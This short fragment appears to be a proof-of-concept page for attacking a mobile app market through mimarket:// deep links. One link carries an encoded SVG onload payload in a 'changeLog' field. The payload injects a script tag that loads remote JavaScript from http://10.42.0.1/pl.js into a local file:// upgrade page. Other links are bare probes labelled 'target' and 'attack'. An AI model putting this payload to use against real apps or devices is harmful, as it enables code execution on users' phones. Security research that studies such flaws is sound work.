 # testtest


<mimarket://browse?title=aaa&url=target>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=attack>

<https://lynmp.com>
